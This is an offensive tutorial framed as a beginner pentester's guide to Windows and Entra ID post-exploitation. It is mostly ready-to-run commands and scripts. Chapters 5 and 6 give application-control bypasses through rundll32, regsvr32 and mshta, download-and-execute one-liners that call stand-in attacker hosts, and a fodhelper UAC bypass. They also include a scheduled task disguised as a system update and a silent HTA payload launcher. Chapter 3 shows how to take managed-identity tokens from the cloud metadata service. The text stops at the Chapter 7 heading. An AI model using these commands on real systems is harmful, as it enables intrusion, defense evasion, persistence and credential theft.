# The Beginner's Guide to Thinking Like a Pentester

A practical, step-by-step guide for understanding attacker procedures on Windows and cloud environments. Each chapter walks through a scenario from start to finish.

**How to Use This Guide:**
- Start with the Decision Trees to identify your situation
- Pick the chapter that matches your scenario
- Follow the steps in order
- Commands are grouped by what you're trying to accomplish
- MITRE ATT&CK references are included for further reading

---

# Table of Contents

**Part 1: Decision Trees**
- [Master Decision Tree: What's Blocked?](#master-decision-tree-whats-blocked)
- [ASR Rules Decision Tree](#asr-rules-decision-tree)
- [Execution Method Selection Tree](#execution-method-selection-tree)

**Part 2: Scenarios**
1. [Chapter 1: You Just Got Access - Now What?](#chapter-1-you-just-got-access---now-what)
2. [Chapter 2: Standard User on a Domain-Joined Windows Device](#chapter-2-standard-user-on-a-domain-joined-windows-device)
3. [Chapter 3: Standard User on an Entra ID (Cloud-Only) Device](#chapter-3-standard-user-on-an-entra-id-cloud-only-device)
4. [Chapter 4: Standard User on an Intune-Managed Device](#chapter-4-standard-user-on-an-intune-managed-device)
5. [Chapter 5: When CMD is Blocked (PowerShell Works)](#chapter-5-when-cmd-is-blocked-powershell-works)
6. [Chapter 6: When Both CMD and PowerShell are Blocked](#chapter-6-when-both-cmd-and-powershell-are-blocked)
7. [Chapter 7: When Scripts Are Also Blocked (VBS/JS/HTA)](#chapter-7-when-scripts-are-also-blocked-vbsjshta)
8. [Chapter 8: Bypassing Attack Surface Reduction (ASR) Rules](#chapter-8-bypassing-attack-surface-reduction-asr-rules)
9. [Chapter 9: Hunting for Credentials](#chapter-9-hunting-for-credentials)
10. [Chapter 10: Privilege Escalation](#chapter-10-privilege-escalation)
11. [Chapter 11: Moving Laterally to Other Systems](#chapter-11-moving-laterally-to-other-systems)
12. [Chapter 12: Covering Your Tracks](#chapter-12-covering-your-tracks)

**Part 3: Reference**
- [Appendix A: LOLBins Quick Reference](#appendix-a-lolbins-quick-reference)
- [Appendix B: ASR Rules Complete Reference](#appendix-b-asr-rules-complete-reference)
- [Appendix C: Browser Credential Locations](#appendix-c-browser-credential-locations)
- [Appendix D: Cobalt Strike Named Pipes](#appendix-d-cobalt-strike-named-pipes)
- [Appendix E: Disabling Windows Defender](#appendix-e-disabling-windows-defender)
- [Appendix F: File Transfer Methods](#appendix-f-file-transfer-methods)
- [Appendix G: AMSI Bypass Techniques](#appendix-g-amsi-bypass-techniques)

---

# Part 1: Decision Trees

---

# Master Decision Tree: What's Blocked?

Use this tree to determine your situation and which chapter to follow.



---

# ASR Rules Decision Tree

Use this to identify which ASR rules are active and find bypasses.



---

# Execution Method Selection Tree

When you need to run code, use this tree to find a working method.



---

# Part 2: Scenarios

---

# Chapter 1: You Just Got Access - Now What?

**Scenario:** You have command execution on a Windows machine. You don't know anything about it yet. Time to figure out where you are and who you are.

## Decision Tree for This Chapter



## Step 1: Who Am I?
[[T1033](https://attack.mitre.org/techniques/T1033/) - System Owner/User Discovery]

First, figure out what user context you're running as:

```
whoami
whoami /all
whoami /upn
```

**What you're looking for:**
- Your username and domain
- Group memberships (are you in any admin groups?)
- Privileges (look for SeDebugPrivilege, SeImpersonatePrivilege)

## Step 2: What Is This Machine?
[[T1082](https://attack.mitre.org/techniques/T1082/) - System Information Discovery]

Now understand the system you're on:

```
systeminfo
net config workstation
wmic os get caption,version,buildnumber
```

**What you're looking for:**
- OS version (Windows 10? Server 2019?)
- Domain membership
- Hotfixes installed (are patches missing?)

## Step 3: What's Running?
[[T1057](https://attack.mitre.org/techniques/T1057/) - Process Discovery]

See what processes are running:

```
tasklist /svc
powershell.exe Get-Process
```

**What you're looking for:**
- Security products (look for AV names)
- Interesting services
- Admin tools that might be installed

## Step 4: What Security Software Is Running?
[[T1518.001](https://attack.mitre.org/techniques/T1518/001/) - Security Software Discovery]

Specifically check for security tools:

```
wmic /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName
sc query WinDefend
powershell.exe Get-MpComputerStatus
```

**What you're looking for:**
- Which AV is running
- Is Windows Defender active?
- Is real-time protection on?

## Step 5: What's the Network Look Like?
[[T1049](https://attack.mitre.org/techniques/T1049/) - System Network Connections Discovery]

Understand the network:

```
ipconfig /all
route print
arp -a
netstat -an
```

**What you're looking for:**
- IP address and subnet
- Default gateway
- Other systems the machine is connected to
- What ports are listening

## Step 6: Are There Other Users Logged In?
[[T1033](https://attack.mitre.org/techniques/T1033/) - System Owner/User Discovery]

Check for other sessions:

```
qwinsta
quser
net user
```

**What you're looking for:**
- Other users logged in (potential targets)
- Active vs disconnected sessions
- Local accounts that exist

## Step 7: Check What's Blocked

Test your execution options:

```
cmd.exe /c echo test
powershell.exe -command "echo test"
wscript.exe //?
mshta.exe about:blank
```

Note which ones work and which are blocked, then use the Master Decision Tree.

---

# Chapter 2: Standard User on a Domain-Joined Windows Device

**Scenario:** You're a standard user on a machine that's joined to Active Directory. You want to learn about the domain and find paths to higher privileges.

## Decision Tree for This Chapter



## Step 1: Confirm Domain Membership

```
net config workstation
systeminfo | findstr Domain
```

## Step 2: Enumerate the Domain
[[T1087.002](https://attack.mitre.org/techniques/T1087/002/) - Account Discovery: Domain Account]

**Get domain info:**
```
net accounts /domain
net time /domain
```

**Find domain controllers:**
```
nltest /dclist:
nltest /domain_trusts /all_trusts
```

**List users:**
```
net user /domain
net user Administrator /domain
net user <username> /domain
```

**List groups:**
```
net groups /domain
net group "domain controllers" /domain
net group "Domain Admins" /domain
net group "domain computers" /domain
net group "enterprise admins" /domain
net localgroup "administrators" /domain
```

## Step 3: Find Trust Relationships
[[T1482](https://attack.mitre.org/techniques/T1482/) - Domain Trust Discovery]

Look for other trusted domains:

```
nltest /domain_trusts
nltest /dclist:<victim_domain>
net view /domain
```

**PowerShell (if available):**
```powershell
Get-ADTrust -Filter *
Get-NetDomainTrust
Get-ADDomainController -Discover
Get-NetForestDomain
```

## Step 4: Find Network Shares
[[T1135](https://attack.mitre.org/techniques/T1135/) - Network Share Discovery]

Look for file shares:

```
net share
net view
net view \\<hostname>
```

## Step 5: Find Other Computers
[[T1018](https://attack.mitre.org/techniques/T1018/) - Remote System Discovery]

Discover other systems:

```
net group "domain computers" /domain
ping <domain_name>
nslookup <hostname>
```

## Step 6: Look for Service Accounts (Kerberoasting Prep)
[[T1558.003](https://attack.mitre.org/techniques/T1558/003/) - Steal or Forge Kerberos Tickets: Kerberoasting]

Find accounts with SPNs (Service Principal Names):

```
setspn.exe -F -Q */*
```

**If you have ADFind:**
```
adfind -gcb -sc trustdmp
adfind -f "(objectcategory=group)"
adfind -f objectcategory=computer -csv name operatingSystem
adfind -f (objectcategory=person)
```

## Step 7: Query Specific Groups

Use dsquery if available:

```
dsquery group -name "<groupname>" | dsget group -members
dsquery * -filter "(objectClass=trustedDomain)"
```

---

# Chapter 3: Standard User on an Entra ID (Cloud-Only) Device

**Scenario:** You're on a device that's only joined to Entra ID (Azure AD) - no on-premises Active Directory. You want to enumerate cloud resources.

## Decision Tree for This Chapter



## Step 1: Check Device Join Status
[[T1082](https://attack.mitre.org/techniques/T1082/) - System Information Discovery]

Use the built-in `dsregcmd` tool:

```
dsregcmd /status
dsregcmd /listaccounts
dsregcmd /azureprtdiag
```

**What you're looking for:**
- AzureAdJoined: YES or NO
- TenantId
- Device ID
- MDM enrollment status
- PRT (Primary Refresh Token) status

## Step 2: Find Your Cloud Identity
[[T1087.004](https://attack.mitre.org/techniques/T1087/004/) - Account Discovery: Cloud Account]

```
whoami /all
whoami /upn
```

Look for cached accounts:

```
dir %LOCALAPPDATA%\Packages\Microsoft.AAD.BrokerPlugin_cw5n1h2txyewy\AC\TokenBroker\Accounts
type %LOCALAPPDATA%\Packages\Microsoft.AAD.BrokerPlugin_cw5n1h2txyewy\AC\TokenBroker\Accounts\*.json
```

## Step 3: Check for MDM (Intune) Enrollment
[[T1526](https://attack.mitre.org/techniques/T1526/) - Cloud Service Discovery]

```
dsregcmd /status | find "MdmUrl"
dsregcmd /status | find "TenantId"
```

## Step 4: Connect to Azure (If PowerShell Available)
[[T1078.004](https://attack.mitre.org/techniques/T1078/004/) - Valid Accounts: Cloud Accounts]

**Azure CLI:**
```
az login --use-device-code
az ad signed-in-user show
```

**Azure PowerShell:**
```powershell
Connect-AzAccount
Get-AzContext
```

**Microsoft Graph PowerShell:**
```powershell
Connect-MgGraph -Scopes "Directory.Read.All,User.Read.All"
Get-MgContext
```

## Step 5: Enumerate Cloud Users and Groups
[[T1087.004](https://attack.mitre.org/techniques/T1087/004/) - Account Discovery: Cloud Account]

**Azure CLI:**
```
az ad user list
az ad group list
az ad user show --id <user_id>
```

**PowerShell:**
```powershell
Get-AzureADUser -All $true
Get-AzureADGroup -All $true
Get-MgUser -All
Get-MgGroup -All
```

## Step 6: Find Cloud Permissions and Roles
[[T1069.003](https://attack.mitre.org/techniques/T1069/003/) - Permission Groups Discovery: Cloud Groups]

**Azure CLI:**
```
az role assignment list
az ad group member list --group <group_name>
```

**PowerShell:**
```powershell
Get-AzureADMSRoleDefinition
Get-AzureADMSRoleAssignment
Get-AzureADDirectoryRole
Get-MgRoleManagementDirectoryRoleAssignment
Get-MgDirectoryRole
```

## Step 7: Discover Cloud Services
[[T1526](https://attack.mitre.org/techniques/T1526/) - Cloud Service Discovery]

**Azure CLI:**
```
az account list
az group list
az vm list
az ad app list
az ad sp list
```

**PowerShell:**
```powershell
Get-AzSubscription
Get-AzResourceGroup
Get-AzVM
Get-AzResource
Get-MgApplication -All
Get-MgServicePrincipal -All
```

## Step 8: Check for Managed Identity (On Azure VMs)
[[T1552.005](https://attack.mitre.org/techniques/T1552/005/) - Cloud Instance Metadata API]

If you're on an Azure VM, try to grab tokens from the metadata service:

```
curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://graph.microsoft.com/"
curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```

**PowerShell:**
```powershell
$token = (Invoke-WebRequest -Uri 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/' -Headers @{Metadata="true"}).Content | ConvertFrom-Json
Connect-AzAccount -AccessToken $token.access_token
```

---

# Chapter 4: Standard User on an Intune-Managed Device

**Scenario:** You're on a device managed by Microsoft Intune. You want to understand the MDM controls and find ways around them.

## Decision Tree for This Chapter



## Step 1: Confirm Intune Enrollment

```
dsregcmd /status | find "MdmUrl"
dsregcmd /status | find "MdmEnrollmentStatus"
```

## Step 2: Check Your Cloud Identity

```
dsregcmd /status
Get-AzureADCurrentSessionInfo
Get-MgContext
```

## Step 3: Find Your Group Memberships
[[T1069.003](https://attack.mitre.org/techniques/T1069/003/) - Permission Groups Discovery]

**PowerShell:**
```powershell
Get-AzureADUserMembership -ObjectId <your_object_id>
Get-AzureADUserAppRoleAssignment -ObjectId <your_object_id>
Get-MgUserMemberOf -UserId <your_user_id>
```

**Azure CLI:**
```
az ad user get-member-groups --id <your_id>
az ad signed-in-user list-owned-objects
```

## Step 4: Look for Intune-Managed Devices

```powershell
Get-MgDeviceManagementManagedDevice
Get-IntuneManagedDevice
Get-MgUserOwnedDevice
```

## Step 5: Check for Stored Tokens
[[T1528](https://attack.mitre.org/techniques/T1528/) - Steal Application Access Token]

Look for cached tokens:

```
dir %APPDATA%\Microsoft\Teams\*.txt | findstr "token"
dir %LOCALAPPDATA%\Microsoft\IdentityCache\*.json
```

## Step 6: Look for Intune Logs

Intune logs might reveal script activity:

```
dir %PROGRAMDATA%\Microsoft\IntuneManagementExtension\Logs\*
type %PROGRAMDATA%\Microsoft\IntuneManagementExtension\Logs\IntuneManagementExtension.log
```

## Step 7: Check Enrollment Bypass Potential
[[T1562](https://attack.mitre.org/techniques/T1562/) - Impair Defenses]

```
dsregcmd /status | find "MdmEnrollmentStatus"
netsh wlan show profiles
```

---

# Chapter 5: When CMD is Blocked (PowerShell Works)

**Scenario:** The organization has blocked cmd.exe (e.g., via AppLocker or Intune policy) but PowerShell still works.

## Decision Tree for This Chapter



## Step 1: Verify the Situation

Try running cmd from PowerShell:
```powershell
cmd.exe /c whoami
```

If blocked, you'll get an error. Proceed with PowerShell alternatives.

## Step 2: PowerShell Equivalents for Common CMD Commands

| CMD Command | PowerShell Equivalent |
|-------------|----------------------|
| `dir` | `Get-ChildItem` or `ls` |
| `type file.txt` | `Get-Content file.txt` |
| `echo text > file` | `Set-Content file.txt "text"` |
| `copy` | `Copy-Item` |
| `move` | `Move-Item` |
| `del` | `Remove-Item` |
| `mkdir` | `New-Item -ItemType Directory` |
| `ipconfig` | `Get-NetIPConfiguration` |
| `netstat` | `Get-NetTCPConnection` |
| `tasklist` | `Get-Process` |
| `systeminfo` | `Get-ComputerInfo` |
| `whoami` | `[Environment]::UserName` |
| `net user` | `Get-LocalUser` |

## Step 3: Basic Discovery Using PowerShell

**Who am I:**
```powershell
[System.Security.Principal.WindowsIdentity]::GetCurrent().Name
$env:USERNAME
$env:USERDOMAIN
whoami /all  # This might work even if cmd doesn't
```

**System info:**
```powershell
Get-ComputerInfo
Get-WmiObject -Class Win32_ComputerSystem
Get-WmiObject -Class Win32_OperatingSystem
```

**Network:**
```powershell
Get-NetIPConfiguration
Get-NetAdapter
Get-NetTCPConnection
```

## Step 4: Proxy Execution Through rundll32
[[T1218.011](https://attack.mitre.org/techniques/T1218/011/) - System Binary Proxy Execution: Rundll32]

Even with CMD blocked, rundll32 might work:

```
rundll32.exe javascript:"..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c whoami")
```

## Step 5: Proxy Through regsvr32
[[T1218.010](https://attack.mitre.org/techniques/T1218/010/) - System Binary Proxy Execution: Regsvr32]

Execute remote scripts:

```
regsvr32 /s /n /u /i:https://example.com/script.sct scrobj.dll
```

## Step 6: Use SyncAppvPublishingServer
[[T1216.001](https://attack.mitre.org/techniques/T1216/001/) - System Script Proxy Execution]

```
SyncAppvPublishingServer.exe "n;(New-Object Net.WebClient).DownloadString('http://example.com/script.ps1') | IEX"
```

---

# Chapter 6: When Both CMD and PowerShell are Blocked

**Scenario:** Both cmd.exe AND PowerShell.exe are blocked. You need to use alternative execution methods - primarily VBScript and HTA files.

## Decision Tree for This Chapter



## Key Concept: Your Execution Toolkit

When CMD and PowerShell are blocked, you work with:

| Method | How to Use |
|--------|-----------|
| Win+R | Run dialog - launches executables directly |
| Notepad | Create script files (.vbs, .hta, .js) |
| wscript.exe | Execute VBScript files |
| cscript.exe | Execute JScript files |
| mshta.exe | Execute HTA files or inline scripts |
| Explorer | Double-click files or address bar execution |
| Task Manager | File → Run new task |

---

## Method 1: VBScript Execution

### Step 1: Create a VBScript File

**Open Notepad:** Win+R → `notepad`

**Paste this for basic command execution:**
```vbs
Set objShell = CreateObject("WScript.Shell")
Set objExec = objShell.Exec("whoami")
WScript.Echo objExec.StdOut.ReadAll()
```

**Save As:** `C:\Users\Public\recon.vbs` (change "Save as type" to "All Files")

### Step 2: Execute the Script

**Via Win+R:**
```
wscript C:\Users\Public\recon.vbs
```

**Or double-click the file in Explorer**

---

### Useful VBScript Templates

**Run command and save output to file:**
```vbs
Set objShell = CreateObject("WScript.Shell")
objShell.Run "dsregcmd /status > C:\Users\Public\status.txt", 0, True
MsgBox "Done! Check C:\Users\Public\status.txt"
```

**Run command silently (no window):**
```vbs
Set objShell = CreateObject("WScript.Shell")
objShell.Run "dsregcmd /status > C:\Users\Public\output.txt", 0, True
```

**Get system information:**
```vbs
Set objWMI = GetObject("winmgmts:\\.\root\cimv2")
Set colItems = objWMI.ExecQuery("Select * from Win32_ComputerSystem")
For Each objItem in colItems
    WScript.Echo "Computer: " & objItem.Name
    WScript.Echo "Domain: " & objItem.Domain
    WScript.Echo "User: " & objItem.UserName
Next
```

**Enumerate running processes:**
```vbs
Set objWMI = GetObject("winmgmts:\\.\root\cimv2")
Set colProcesses = objWMI.ExecQuery("Select * from Win32_Process")
For Each objProcess in colProcesses
    WScript.Echo objProcess.Name & " (PID: " & objProcess.ProcessId & ")"
Next
```

**Download a file:**
```vbs
Set objHTTP = CreateObject("MSXML2.ServerXMLHTTP")
objHTTP.Open "GET", "http://example.com/file.exe", False
objHTTP.Send

Set objStream = CreateObject("ADODB.Stream")
objStream.Open
objStream.Type = 1
objStream.Write objHTTP.ResponseBody
objStream.SaveToFile "C:\Users\Public\downloaded.exe", 2
objStream.Close

MsgBox "Download complete!"
```

**Spawn process via WMI:**
```vbs
Set objWMI = GetObject("winmgmts:\\.\root\cimv2")
Set objProcess = objWMI.Get("Win32_Process")
errReturn = objProcess.Create("notepad.exe", Null, Null, intPID)
WScript.Echo "Spawned process with PID: " & intPID
```

**Modify registry (for UAC bypass):**
```vbs
Set WshShell = CreateObject("WScript.Shell")

' Set up fodhelper bypass
WshShell.RegWrite "HKCU\Software\Classes\ms-settings\Shell\Open\command\", "C:\Users\Public\payload.exe", "REG_SZ"
WshShell.RegWrite "HKCU\Software\Classes\ms-settings\Shell\Open\command\DelegateExecute", "", "REG_SZ"

' Trigger fodhelper
WshShell.Run "fodhelper.exe", 0, True

' Cleanup
WshShell.RegDelete "HKCU\Software\Classes\ms-settings\"

MsgBox "Done!"
```

**Create scheduled task:**
```vbs
Set service = CreateObject("Schedule.Service")
service.Connect
Set rootFolder = service.GetFolder("\")
Set taskDef = service.NewTask(0)

taskDef.RegistrationInfo.Description = "System Update"
taskDef.Settings.Enabled = True
taskDef.Settings.StartWhenAvailable = True

Set triggers = taskDef.Triggers
Set trigger = triggers.Create(1) ' Time trigger
trigger.StartBoundary = "2025-01-01T00:00:00"
trigger.Enabled = True

Set Action = taskDef.Actions.Create(0)
Action.Path = "C:\Users\Public\payload.exe"

rootFolder.RegisterTaskDefinition "SystemUpdate", taskDef, 6, "", "", 3

MsgBox "Task created!"
```

---

## Method 2: HTA (HTML Application) Execution

HTA files are more powerful - they run with full trust and can execute VBScript or JavaScript.

### Step 1: Create an HTA File

**Open Notepad:** Win+R → `notepad`

**Basic HTA template:**
```html
<html>
<head>
<title>System Check</title>
<HTA:APPLICATION
  APPLICATIONNAME="System Check"
  SCROLL="yes"
  SINGLEINSTANCE="yes"
  WINDOWSTATE="normal"
/>
<script language="VBScript">
Sub Window_OnLoad()
    Set objShell = CreateObject("WScript.Shell")
    objShell.Run "dsregcmd /status > C:\Users\Public\status.txt", 0, True
    MsgBox "Check complete! Results in C:\Users\Public\status.txt"
End Sub
</script>
</head>
<body>
<h1>Running system check...</h1>
</body>
</html>
```

**Save As:** `C:\Users\Public\check.hta` (change "Save as type" to "All Files")

### Step 2: Execute

**Double-click the file, OR via Win+R:**
```
mshta C:\Users\Public\check.hta
```

---

### Useful HTA Templates

**Interactive command runner:**
```html
<html>
<head>
<HTA:APPLICATION APPLICATIONNAME="Runner" SCROLL="yes"/>
<script language="VBScript">
Sub RunCmd()
    Set objShell = CreateObject("WScript.Shell")
    strCmd = document.getElementById("cmd").value
    Set objExec = objShell.Exec(strCmd)
    document.getElementById("output").innerText = objExec.StdOut.ReadAll()
End Sub
</script>
</head>
<body>
<input type="text" id="cmd" size="50" value="whoami">
<button onclick="RunCmd()">Run</button>
<pre id="output"></pre>
</body>
</html>
```

**Silent payload executor:**
```html
<html>
<head>
<script language="VBScript">
Sub Window_OnLoad()
    Set objShell = CreateObject("WScript.Shell")
    objShell.Run "C:\Users\Public\payload.exe", 0, False
    window.close()
End Sub
</script>
</head>
<body></body>
</html>
```

---

## Method 3: Inline Execution (No File Needed)

These can be typed directly into Win+R - no need to create files first.

### mshta Inline VBScript

**Run a command:**
```
mshta vbscript:Execute("CreateObject(""WScript.Shell"").Run ""dsregcmd /status > C:\Users\Public\out.txt"", 0:close")
```

**Show a message box (test if mshta works):**
```
mshta vbscript:Execute("MsgBox ""Test"":close")
```

**Download and execute:**
```
mshta vbscript:Execute("CreateObject(""WScript.Shell"").Run ""certutil -urlcache -f http://x.com/file.exe C:\Users\Public\file.exe"", 0:close")
```

### mshta Inline JavaScript

```
mshta javascript:a=new%20ActiveXObject("WScript.Shell");a.Run("calc.exe");close();
```

### mshta Remote HTA

```
mshta http://attacker.com/payload.hta
```

---

## Method 4: Other LOLBin Methods (Win+R Friendly)

These work directly from Win+R without CMD or PowerShell:

**certutil download:**
```
certutil -urlcache -split -f http://example.com/file.exe C:\Users\Public\file.exe
```

**bitsadmin download:**
```
bitsadmin /transfer job http://example.com/file.exe C:\Users\Public\file.exe
```

**msiexec remote install:**
```
msiexec /q /i http://example.com/package.msi
```

**pcalua execute any program:**
```
pcalua -a C:\Users\Public\payload.exe
```

**explorer launch:**
```
explorer C:\Users\Public\payload.exe
```

**rundll32 JavaScript (complex but powerful):**
```
rundll32 javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").Run("calc.exe")
```

---

## Workflow Summary

| I need to... | Without CMD/PS, do this |
|--------------|------------------------|
| Run a command | mshta inline VBScript |
| Save command output | VBScript with redirect to file |
| Download a file | certutil or bitsadmin via Win+R |
| Execute a program | pcalua, explorer, or mshta |
| Get system info | VBScript with WMI queries |
| Modify registry | VBScript with WshShell.RegWrite |
| Create scheduled task | VBScript with Schedule.Service |
| UAC bypass | VBScript registry + fodhelper |

---

# Chapter 7: When Scripts Are Also Blocked (VBS/JS/HTA)

**Scenario:** CMD, PowerShell, AND scripting hosts (wscript, cscript, mshta) are all blocked. This is a locked-down environment. You need to find alternative execution methods.

## Decision Tree for This Chapter

